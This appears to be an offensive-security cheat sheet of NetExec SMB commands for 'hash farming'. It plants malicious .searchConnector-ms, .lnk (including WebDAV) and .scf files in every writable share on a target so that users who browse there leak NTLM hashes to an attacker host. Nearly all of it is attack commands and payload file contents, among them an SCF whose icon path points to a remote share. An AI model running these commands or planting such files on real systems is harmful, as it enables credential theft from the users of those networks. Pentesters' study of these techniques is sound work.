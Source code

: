 
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription
xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
<description>Microsoft Outlook</description>
<isSearchOnlyItem>false</isSearchOnlyItem>
<includeInStartMenuScope>true</includeInStartMenuScope>
<templateInfo>
<folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
</templateInfo>
<simpleLocation>
<url>https://whatever/</url>
</simpleLocation>
</searchConnectorDescription>

```bash
nxc smb <ip_range> -u <user> -p <passwd> -M drop-sc -o URL=https://<ip>/jubeaz FILENAME=@<filename|jubeaz>
```

## smb - drop an malicious .lnk file (hash farming)
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/COERCE-FILE
in every writable folder on the target server 
CLEANUP=true

```bash
nxc smb <ip> -u <user> -p <password> -M slinky -o NAME=<file_name> SERVER=<local_ip_or_no_real_name>
```

## smb - drop an malicious .lnk file WEBDAV (hash farming)
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/COERCE-FILE
in every writable folder on the target server 
CLEANUP=true

```bash
nxc smb <ip> -u <user> -p <password> -M slinky -o NAME=<file_name> SERVER=<local_ip_or_no_real_name>@<PORT>
```
 

## smb - drop an malicious .scf file (hash farming)
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/COERCE-FILE
in every writable folder on the target server 
CLEANUP=true

[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop

```bash
nxc smb <ip> -u <user> -p <password> -M scufy -o NAME=<file_name> SERVER=<local_ip>
```
 